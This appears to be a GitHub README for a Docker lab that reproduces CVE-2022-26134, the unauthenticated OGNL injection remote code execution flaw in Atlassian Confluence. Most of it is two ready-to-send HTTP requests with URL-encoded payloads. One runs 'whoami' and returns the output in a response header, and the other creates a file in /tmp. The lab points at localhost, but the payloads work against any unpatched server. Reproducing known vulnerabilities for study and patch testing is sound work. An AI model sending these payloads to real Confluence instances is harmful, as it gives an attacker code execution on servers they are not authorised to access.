 # Atlassian Confluence Pre-Auth Remote Code Execution Vulnerability(CVE-2022-26134)

## Introduction

Atlassian has been made aware of current active exploitation of a critical severity unauthenticated remote code execution vulnerability in Confluence Data Center and Server. The `OGNL` injection vulnerability allows an unauthenticated user to execute arbitrary code on a Confluence Server or Data Center instance. 

## Usage

Run

```bash
docker-compose up
```

Follow the installation guild and setup the database with

```
user: postgres
passwd: postgres
database: confluence
```

Sending the request

```http
GET /%24%7B(Class.forName(%22jav%22+%22ax.script.ScriptEngineManager%22).newInstance().getEngineByName(%22js%22).eval(%22var%20p%20%3D%20org.apache.commons.io.IOUtils.toString(java.lang.Runtime.getRuntime().exec('whoami').getInputStream(),'utf-8')%3B%20com.opensymphony.webwork.ServletActionContext.getResponse().setHeader('X-Cmd-Response',p)%3B%22))%7D/ HTTP/1.1
Host: localhost:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
```

![](images/screenshot.jpg)

or a brief poc but witout command execution reply in response.

```http
GET /%24%7B(Class.forName(%22java%22+%22.lang.Runtime%22).getMethod(%22getRuntime%22,%20null).invoke(null,%20null).exec(%22touch%20/tmp/success%22))%7D/ HTTP/1.1
Host: localhost:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
```

## Reference

1. https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html
2. https://jira.atlassian.com/browse/CONFSERVER-79016